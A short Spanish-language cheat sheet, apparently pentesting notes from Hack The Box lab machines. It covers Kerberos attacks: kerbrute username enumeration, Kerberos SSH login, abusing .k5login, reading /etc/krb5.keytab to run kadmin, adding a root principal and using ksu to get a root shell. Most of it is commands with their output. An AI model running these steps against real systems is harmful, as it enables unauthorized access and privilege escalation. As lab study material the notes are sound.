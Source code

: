# Kerberos - 88

## Enumeración de usuarios
```null
kerbrute userenum --dc 10.10.11.175 -d outdated.htb /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt
```

## Configuración del ``krb5.conf`` para el acceso por SSH
```null
dpkg-reconfigure krb5-config
```

```null
[libdefaults]
  default_realm = REALCORP.HTB

[realms]
  REALCORP.HTB = {
    kdc = realcorp.htb:88
    }
```

El SPN debe ser el primer host al que apuntar en el ``/etc/hosts``

### Conexión
```null
kinit j.nakazawa
Password for j.nakazawa@REALCORP.HTB:
```

```null
ssh j.nakazawa@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Thu Jan 19 12:36:51 2023 from 10.10.14.6
[j.nakazawa@srv01 ~]$ 
```

## Abuso de ``.krlogin`` para escalar privilegios (LINUX)

### Creación de archivo de configuración en el directorio personal de un usuario
Con esto se consigue que el usuario pwneado se pueda conectar como este otro proporcionando su TGT
```null
[j.nakazawa@srv01 squid]$ echo 'j.nakazawa@REALCORP.HTB' > .k5login
```

### Abuso de ``.keytab``

### Enumeración de TGTs proporcionado este archivo
```null
[admin@srv01 /]$ klist -k /etc/krb5.keytab
```

### Sesión interactiva proporcionando SPN
```null
kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
```

### Creación de principal para el usuario ``root``, así como su contraseña
```null
kadmin:  add_principal root@REALCORP.HTB
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created.
```

### Shell como ``root``

```null
[admin@srv01 /]$ ksu
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
```

